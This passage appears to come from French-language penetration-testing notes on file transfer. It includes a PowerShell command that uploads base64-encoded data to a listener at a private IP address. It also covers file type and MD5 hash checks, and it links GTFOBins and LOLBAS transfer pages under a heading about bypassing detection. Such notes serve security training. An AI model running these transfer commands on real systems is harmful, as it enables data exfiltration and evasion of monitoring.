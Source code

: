 ## Upload le string Base64

```powershell
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

---

# Valider le format et l'intégrité du fichier

## Check du format du fichier

BASH

```bash
file fichier
```

POWERSHELL
## Check du hash md5

BASH

```bash
md5sum fichier
```

POWERSHELL

```powershell
Get-FileHash -Algorithm md5 fichier
```

## Diff pour s'assurer que les hashs sont identiques

format hash:hash

https://gchq.github.io/CyberChef/#recipe=Diff(':','Character',true,true,false,false)

---
# GTFOBINS / LOLBAS (BYPASS DETECTION)

https://lolbas-project.github.io/#/download
https://lolbas-project.github.io/#/upload
https://gtfobins.github.io/#+file%20download
https://gtfobins.github.io/#+file%20upload


## LOLBAS (Windows)

### Download
